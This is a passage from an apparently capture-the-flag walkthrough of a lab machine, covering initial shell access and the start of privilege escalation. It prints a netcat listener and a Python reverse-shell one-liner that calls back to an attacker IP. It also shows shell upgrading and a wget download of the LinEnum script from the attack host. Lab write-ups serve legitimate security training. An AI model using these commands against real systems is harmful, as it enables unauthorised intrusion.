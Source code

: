 ![](https://cdn-images-1.medium.com/max/2000/1*4kzlbFV-7uYIf1JzpmDEsA.png)

Set up a listener on the attack machine.

    nc -nlvp 4444

Execute the request. It doesn’t send a reverse shell back. Check if bash is installed on the machine.

    which bash

![](https://cdn-images-1.medium.com/max/2000/1*5ljbBdyQo5QOKxfjBdFdnA.png)

It is so I’m not sure why this didn’t work. Let’s try python.

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Again, don’t forget to URL encode it.

![](https://cdn-images-1.medium.com/max/2000/1*a_2rl6isI-8XzSMcf9fyFw.png)

We get back a low privileged shell!

![](https://cdn-images-1.medium.com/max/2000/1*HlbmfN58w08F8xgCSTlpsw.png)

Let’s upgrade it to a better shell.

    python -c 'import pty; pty.spawn("/bin/bash")'

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session (CTRL+ Z) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

    stty raw -echo

Once that is done, run the command “fg” to bring netcat back to the foreground.

Grab the user flag.

![](https://cdn-images-1.medium.com/max/2000/1*OprXSZljihjVu0LhZ_w28g.png)

We need to escalate privileges.

## Privilege Escalation

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

    python -m SimpleHTTPServer 5555

In the target machine, change to the /tmp directory where we have write privileges and download the LinEnum script.

    cd /tmp
    wget http://10.10.14.6:5555/LinEnum.sh
